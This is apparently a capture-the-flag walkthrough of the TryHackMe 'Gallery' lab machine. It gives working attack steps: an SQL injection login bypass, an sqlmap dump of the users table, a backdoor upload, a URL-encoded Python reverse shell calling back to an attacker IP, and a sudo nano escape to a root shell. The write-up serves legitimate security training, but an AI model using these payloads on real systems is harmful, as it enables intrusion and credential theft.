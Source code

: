 ```yaml
---
layout: post
title:  "Gallery"
categories: [tryhackme]
tags: [linux]
---
```


You can find this machine here : `https://tryhackme.com/room/gallery666`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ nmap 10.10.66.67      

PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
```

### Simple Image Gallery System - SQL Injection


![image]( /assets/img/gallery/1.PNG)


- We are able to login without password
- Just type :

```bash
username : admin'#
```

![image]( /assets/img/gallery/2.gif)


```bash
┌──(kali㉿Zeus)-[~]
└─$ searchsploit Simple Image Gallery System
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Simple Image Gallery System 1.0 - 'id' SQL Injection                             | php/webapps/50198.txt
--------------------------------------------------------------------------------- ---------------------------------
```

- Request

![image]( /assets/img/gallery/3.gif)

```bash
GET /gallery/?page=albums/images&id=6 HTTP/1.1
Host: 10.10.66.67
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.66.67/gallery/?page=albums
Cookie: PHPSESSID=3enduhu52j21fptfp8ck3fpqcs
Upgrade-Insecure-Requests: 1
```

### SQLmap

```bash
sqlmap -r gal.req -D gallery_db -T users --dump
```

![image]( /assets/img/gallery/4.PNG)

### Upload a backdoor as album images

![image]( /assets/img/gallery/5.PNG)

### RCE Confirmed

![image]( /assets/img/gallery/6.PNG)

### Reverse Shell

- payload

```bash
python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%2210.18.45.56%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22sh%22)%27
```

![image]( /assets/img/gallery/7.PNG)

- better shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Control + z
stty raw -echo;fg
ENTER
```

### Privileges Escalation to Mike

```bash
cd /var/backups/mike_home_backup
cat .bash_history
su mike
enter the password
```

![image]( /assets/img/gallery/8.PNG)

### Privileges Escalation to Root

```bash
mike@gallery:~$ sudo -l
sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
mike@gallery:~$ 
```

### rootkit.sh


`cat /opt/rootkit.sh`

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

- exploitation

```bash
sudo -u root /bin/bash /opt/rootkit.sh
read
^R^X
reset; sh 1>&0 2>&0
```

### Rooted

![image]( /assets/img/gallery/9.gif)

